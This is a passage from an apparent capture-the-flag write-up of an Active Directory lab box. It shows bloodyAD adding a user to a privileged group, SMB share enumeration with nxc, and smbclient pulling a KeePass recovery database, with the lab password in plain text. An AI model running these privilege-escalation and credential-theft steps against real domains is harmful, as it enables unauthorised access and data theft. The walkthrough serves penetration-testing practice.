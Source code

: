 We can add ourself to `DEVELOPERS` group and maybe we can get access to `DEV` share.

```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u levi.james -p 'KingofAkron2025!'  add groupMember developers levi.james
```

Let's check again the SMB shares.

```bash
> nxc smb puppy.htb -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

Now we can access `DEV` share.

```bash
> smbclient.py puppy.htb/levi.james:KingofAkron2025!@puppy.htb
# use DEV
# ls
drw-rw-rw-          0  Sun Mar 23 14:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 23:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 14:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Mon Mar 10 03:16:16 2025 Projects
-rw-rw-rw-       2677  Wed Mar 12 09:25:46 2025 recovery.kdbx
```

There's a `recovery.kdbx` file which is a KeePass database file. Let's get it.

```bash
get recovery.kdbx
```

![alt text](image-1.png)
